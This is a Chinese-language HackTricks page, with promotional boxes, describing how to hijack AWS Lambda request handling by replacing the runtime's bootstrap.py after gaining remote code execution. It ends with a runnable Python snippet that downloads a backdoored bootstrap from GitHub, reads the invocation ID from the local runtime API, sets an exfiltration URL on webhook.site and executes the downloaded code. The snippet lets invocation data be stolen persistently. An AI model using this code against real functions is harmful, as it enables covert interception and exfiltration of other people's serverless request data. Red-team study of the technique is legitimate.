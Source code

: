 # AWS - 窃取Lambda请求

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS红队专家）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想在HackTricks中看到您的**公司广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[NFT](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或在**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**上关注**我们。
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## Lambda流程

<figure><img src="../../../../.gitbook/assets/image (152).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer**是一个位于容器外部的进程，向**init**进程发送**调用**。
2. init进程监听端口**9001**，暴露一些有趣的端点：
* **`/2018-06-01/runtime/invocation/next`** – 获取下一个调用事件
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – 返回调用的处理程序响应
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – 返回执行错误
3. **bootstrap.py**循环从init进程获取调用，并调用用户代码处理它们（**`/next`**）。
4. 最后，**bootstrap.py**将响应发送给init。

请注意，bootstrap将用户代码作为模块加载，因此用户代码执行的任何代码执行实际上是在此进程中发生的。

## 窃取Lambda请求

此攻击的目标是使用户代码在**`bootstrap.py`**进程内执行一个恶意**`bootstrap.py`**进程，该进程处理易受攻击的请求。这样，**恶意bootstrap**进程将开始与init进程**通信**以处理请求，而**合法**的bootstrap被**困**在运行恶意进程中，因此不会向init进程请求更多请求。

这是一个简单的任务，因为用户的代码是由合法的**`bootstrap.py`**进程执行的。因此，攻击者可以：

* 向init进程**发送当前调用的虚假结果**，因此init认为bootstrap进程正在等待更多调用。
* 必须发送一个请求到**`/${invoke-id}/response`**。
* 可以使用[**inspect**](https://docs.python.org/3/library/inspect.html) python模块（如[此处提出的](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py)）从合法的**`bootstrap.py`**进程的堆栈中获取invoke-id，或者只需再次请求**`/2018-06-01/runtime/invocation/next`**（如[此处提出的](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py)）。
* 执行一个恶意**`boostrap.py`**，它将处理下一个调用
* 为了隐蔽起见，可以将lambda调用参数发送到攻击者控制的C2，然后像往常一样处理请求。
* 对于此攻击，只需从系统或[**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py)获取**`bootstrap.py`**的原始代码，添加恶意代码并从当前lambda调用中运行它。

### 攻击步骤

1. 找到一个**RCE**漏洞。
2. 生成一个**恶意**的**bootstrap**（例如[https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py)）
3. **执行**恶意的bootstrap。

您可以轻松执行这些操作：
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Get invocation id
resp = http.request("GET", "127.0.0.1:9001/2018-06-01/runtime/invocation/next")
invoke_id = resp.headers["Lambda-Runtime-Aws-Request-Id"]

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
了解更多信息，请查看[https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher)

## 参考资料

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

支持HackTricks的其他方式：

* 如果您想在HackTricks中看到您的**公司广告**或**下载PDF版本的HackTricks**，请查看[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>
